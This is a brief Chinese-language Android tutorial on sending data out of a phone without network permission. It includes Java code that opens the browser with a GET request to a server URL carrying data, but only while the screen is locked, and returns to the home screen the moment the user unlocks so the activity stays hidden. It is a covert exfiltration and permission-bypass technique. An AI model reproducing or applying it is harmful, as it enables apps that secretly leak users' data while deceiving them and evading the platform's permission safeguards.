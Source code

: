 零权限上传数据
===

虽然没有权限，但是也可以通过浏览器用`Get`方式来传递自己的数据，由于这样会打开浏览器，为了防止让用户看到，
所以我们可以再用户锁屏之后开始传递数据，而在用户一解除锁屏我们就回到桌面，这里用`KeyguardManager`来实现，
即在锁屏的时候键盘不能用，而一旦键盘能用了我们就立马回到桌面    
```java
public void onCreate() {
	timer = new Timer();
	km = (KeyguardManager) getSystemService(KEYGUARD_SERVICE);
	random = new Random();
	task = new TimerTask() {
		@Override
		public void run() {
			if (km.inKeyguardRestrictedInputMode()) {
				Intent intent = new Intent();
				intent.setAction(Intent.ACTION_VIEW);
				intent.addCategory(Intent.CATEGORY_BROWSABLE);
				intent.setData(Uri
						.parse("http://192.168.1.254:8080/web/UploadServlet?info="
								+ random.nextInt()));
				intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
				startActivity(intent);
			}else{		
				//回桌面.
				Intent intent = new Intent();
				intent.setAction("android.intent.action.MAIN");
				intent.addCategory("android.intent.category.HOME");
				intent.addCategory(Intent.CATEGORY_DEFAULT);
				intent.addCategory("android.intent.category.MONKEY");
				intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
				startActivity(intent);
			}
		}
	};
	timer.schedule(task, 1000, 2000);
	super.onCreate();
}
```

---

- 邮箱 ：charon.chui@gmail.com  
- Good Luck! 
